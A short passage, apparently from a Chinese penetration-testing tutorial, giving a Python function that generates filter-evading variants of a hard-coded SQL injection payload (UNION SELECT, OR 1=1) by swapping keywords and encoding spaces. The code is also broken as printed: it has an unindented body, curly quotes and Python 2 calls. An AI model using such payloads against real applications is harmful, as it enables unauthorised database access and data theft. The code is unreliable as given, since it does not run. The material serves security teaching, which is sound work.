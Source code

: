 ## 还有更多…

同样，可以将其制作为内部函数，而不是作为独立脚本使用。这也可以通过使用以下脚本来实现：

```
def encoder(string):

subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin'”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
return subset
```
